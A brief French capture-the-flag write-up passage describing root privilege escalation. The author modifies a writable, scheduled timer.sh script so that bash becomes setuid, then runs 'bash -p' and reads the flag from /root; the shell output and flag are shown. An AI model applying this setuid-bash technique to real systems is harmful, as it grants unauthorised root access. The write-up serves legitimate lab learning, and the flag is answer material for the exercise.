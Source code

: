 On remarque un répertoire timers à la racines.  
Dans le répertoire il y a un scripte timer.sh.  
On modifie timer.sh pour rendre notre bash setuid.  
On attend un peu.  

```bash
/bin/bash -p
bash-4.4# id
id
uid=1(daemon) gid=1(daemon) euid=0(root) egid=0(root) groups=0(root),1(daemon)  
ls /root/
da_king_flek.txt  snap	xampp_setup_job
bash-4.4# cat /root/da_king_flek.txt
cat /root/da_king_flek.txt
fL4G{YoU_R0OT3d_1T_coN9ra7$}
```

On exécute bash en mode persistant.  
Dans le répertoire on root on un fichier da_king_flek.txt.  
On lit le fichier et on a notre flag qui est : fL4G{YoU_R0OT3d_1T_coN9ra7$}   

